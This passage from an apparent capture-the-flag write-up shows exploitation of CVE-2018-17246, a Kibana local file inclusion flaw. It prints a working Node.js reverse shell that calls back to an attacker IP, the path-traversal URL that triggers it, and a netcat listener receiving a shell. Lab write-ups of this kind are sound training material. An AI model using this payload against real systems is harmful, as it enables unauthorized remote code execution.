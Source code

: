 Kibana is a data visualization and query tool, popular with information
security operations.

### CVE-2018-17246

#### Background

There's a public vulnerability in Kibana,
[CVE-2018-17246](https://www.cyberark.com/threat-research-blog/execute-this-i-know-you-have-it/)
(that links is a good writeup). There's also a POC on twitter:

> A little bit sensationalist, as the flaw executes the destination of
> the LFI as JS, it doesn\'t dump /etc/passwd to the browser as the
> above might lead you to think, instead it dumps it to the kibana log.
> At least this is what i have seen in testing
>
> --- Adam (@AdamTheAnalyst) [December 17,
> 2018](https://twitter.com/AdamTheAnalyst/status/1074726937396948993?ref_src=twsrc%5Etfw)

The vulnerability is a LFI that will run an included Javascript file.
[This GitHub](https://github.com/mpgn/CVE-2018-17246) also has good
details.

#### Shell

I'll need to create a reverse shell on Haystack. I'll use the one from
the GitHub link above:



    [security@haystack shm]$ cat 0xdf.js 
    (function(){
        var net = require("net"),
            cp = require("child_process"),
            sh = cp.spawn("/bin/sh", []);
        var client = new net.Socket();
        client.connect(443, "10.10.14.8", function(){
            client.pipe(sh.stdin);
            sh.stdout.pipe(client);
            sh.stderr.pipe(client);
        });
        return /a/; // Prevents the Node.js application form crashing
    })();



Now I can trigger it by visiting
`http://127.0.0.1:5601/api/console/api_server?sense_version=@@SENSE_VERSION&apis=../../../../../../.../../../../dev/shm/0xdf.js`:



    root@kali# nc -lnvp 443
    Ncat: Version 7.70 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.115.
    Ncat: Connection from 10.10.10.115:55962.
    id
    uid=994(kibana) gid=992(kibana) grupos=992(kibana) contexto=system_u:system_r:unconfined_service_t:s0
